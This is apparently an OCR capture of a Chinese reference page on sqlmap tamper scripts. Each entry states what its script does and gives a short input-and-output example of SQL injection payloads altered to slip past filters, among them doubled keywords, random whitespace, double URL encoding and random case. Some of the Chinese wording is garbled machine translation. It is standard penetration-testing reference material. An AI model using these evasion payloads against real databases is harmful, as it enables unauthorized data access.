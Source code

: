 　　双重查询语句。取代predefined SQL关键字with表示 suitable for替代（例如 .replace（“SELECT”、””)） filters

　　Example: 
``` bash
('1 UNION SELECT 2--') '1 UNIOUNIONN SELESELECTCT 2--' 
```
* space2randomblank.py

　　作用：代替空格字符（“”）从一个随机的空白字符可选字符的有效集

　　Example: 
``` bash
('SELECT id FROM users') 'SELECT%0Did%0DFROM%0Ausers'
```
* sp_password.py

　　作用：追加sp_password’从DBMS日志的自动模糊处理的有效载荷的末尾

　　Example: 
``` bash
('1 AND 9227=9227-- ') '1 AND 9227=9227-- sp\_password' 
```
* chardoubleencode.py

　　作用: 双url编码(不处理以编码的)

　　Example: 
``` bash
 Input: SELECT FIELD FROM%20TABLE 

 Output: %2553%2545%254c%2545%2543%2554%2520%2546%2549%2545%254c%2544%2520%2546%2552%254f%254d%2520%2554%2541%2542%254c%2545
```
* unionalltounion.py

　　作用：替换UNION ALL SELECT UNION SELECT

　　Example:
``` bash
 ('-1 UNION ALL SELECT') '-1 UNION SELECT'
```

* charencode.py

　　作用：url编码
　　Example:
``` bash
   Input: SELECT FIELD FROM%20TABLE

   Output: %53%45%4c%45%43%54%20%46%49%45%4c%44%20%46%52%4f%4d%20%54%41%42%4c%45
```

* randomcase.py

　　作用：随机大小写 Example:
``` bash
Input: INSERT
Output: InsERt
```
